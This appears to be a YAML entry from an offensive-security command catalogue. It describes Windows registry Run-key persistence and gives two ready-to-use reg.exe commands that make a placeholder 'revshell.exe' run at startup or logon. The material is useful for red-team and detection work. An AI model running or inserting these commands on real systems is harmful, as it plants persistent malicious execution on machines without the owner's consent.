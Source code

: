 ```yaml
---
title: |
  Add reg keys that will execute an arbitrary payload during logon or startup
description: |
  It is possible to gain persistence on a windows machine by adding reg keys that will execute an arbitrary payload during logon or startup. Keys added to the HKLM hive will execute on startup. Keys added to the HKCU hive will execute when the corresponding user logs on. Adding keys into the HKLM hive will require an elevated shell. There are four keys that can be used: Run, RunOnce, RunServices, and RunServicesOnce. By default, a RunOnce key is deleted after the specified command is executed. The path for these keys is the same for the HKLM and HKCU hives.

  Command Reference:

  	Value Name: Persistence

  	RegKey data type: REG_SZ

  	Data: "C:\Path\To\revshell.exe"

  	KeyName: "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"

command: |
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

   reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"
items:
  - Shell
OS:
  - Windows
attack_types:
  - Persistence
references:
  - https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
  - https://www.hackingarticles.in/windows-persistence-using-winlogon/
  - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/install/runonce-registry-key
---
```

